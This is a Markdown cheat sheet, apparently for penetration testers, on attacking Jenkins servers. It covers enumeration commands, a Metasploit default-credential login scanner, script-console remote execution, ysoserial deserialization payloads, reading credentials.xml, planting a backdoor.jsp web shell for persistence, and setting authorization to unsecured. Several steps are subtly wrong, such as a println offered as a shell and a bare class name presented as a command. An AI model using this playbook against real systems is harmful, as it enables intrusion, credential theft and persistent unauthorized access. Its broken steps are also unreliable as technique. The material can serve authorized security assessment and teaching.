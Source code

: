 # Attacking Jenkins - Focused Commands & Key Points

## 1. Jenkins Version Detection:

```
curl -I http://<target>:8080/
```

- Check HTTP headers for Jenkins version.

```
nmap -sV -p 8080 <target_ip>
```

- Nmap version detection.

```
curl http://<target>:8080/jenkins/cli/ | grep -i "Jenkins CLI"
```

- Check for Jenkins CLI.

---

## 2. Jenkins Port Enumeration:

- Default Ports:
    - **8080** (HTTP Web Interface)
    - **50000** (Slave Communication, often overlooked)

```
nmap -sV -p 50000 <target_ip>
```

- Identify slave communication port.

---

## 3. Jenkins CLI Enumeration:

```
java -jar jenkins-cli.jar -s http://<target>:8080/jenkins/ help
java -jar jenkins-cli.jar -s http://<target>:8080/jenkins/ list-plugins
java -jar jenkins-cli.jar -s http://<target>:8080/jenkins/ list-jobs
```

- Enumerate jobs, plugins, and users via Jenkins CLI.

---

## 4. Jenkins Plugin Enumeration:

```
curl http://<target>:8080/jenkins/pluginManager/
```

- List installed plugins (common vulnerability source).

---

## 5. Jenkins Security Realm Enumeration:

```
curl http://<target>:8080/jenkins/configureSecurity/
```

- Identify authentication methods (Jenkins DB, LDAP, etc.).

---

## 6. Jenkins API Enumeration:

```
curl http://<target>:8080/jenkins/api/
curl http://<target>:8080/jenkins/api/json
```

- Identify API endpoints that might expose sensitive data.

---

## 7. Jenkins Access Control Enumeration:

```
curl http://<target>:8080/jenkins/configureSecurity/
```

- Identify misconfigurations in access control settings.

---

## 8. Jenkins Exploitation:

- **Exploiting Weak Credentials**
    - Check for default credentials (`admin:admin`, `admin:password`).

```
msf6 > use auxiliary/scanner/http/jenkins_login
msf6 auxiliary(scanner/http/jenkins_login) > set RHOSTS <target_ip>
msf6 auxiliary(scanner/http/jenkins_login) > run
```

- **Exploiting Script Console (Authenticated RCE)**

```
java -jar jenkins-cli.jar -s http://<target>:8080/jenkins/ groovysh
println "Attacker Shell"
```

- Gain RCE through Jenkins script console.
    
- **Exploiting Build Job Execution**
    

```
curl -X POST http://<target>:8080/jenkins/job/test/build
```

- Trigger a job execution for exploitation.

---

## 9. Jenkins Deserialization Vulnerabilities:

- Use **ysoserial** to generate payloads.

```
java -jar ysoserial-all.jar CommonsCollections5 "<payload>" | base64
```

- Inject payloads into vulnerable endpoints.

---

## 10. Jenkins Post-Exploitation & Persistence:

- **Extract Credentials from `credentials.xml`**

```
cat /var/lib/jenkins/credentials.xml
```

- **Establish Persistence:**

```
cp backdoor.jsp /var/lib/jenkins/jobs/
```

- **Modify Access Control for Future Access:**

```
jenkins.security.AuthorizationStrategy$Unsecured
```

---

### **Key Takeaways:**

- **Jenkins Manager Access**: RCE via Jenkins Script Console.
- **Weak Credentials**: Default or weak credentials often present.
- **Plugin Enumeration**: Plugins are a frequent source of vulnerabilities.
- **Jenkins API Exposure**: Can expose sensitive information.
- **Access Control Issues**: Misconfigurations lead to privilege escalation.
- **Deserialization Attacks**: Exploit Java deserialization vulnerabilities.
- **Web Shell Persistence**: Deploy malicious JSP for long-term access.

By structuring this guide effectively, it serves as a powerful reference for Jenkins security assessment and penetration testing.
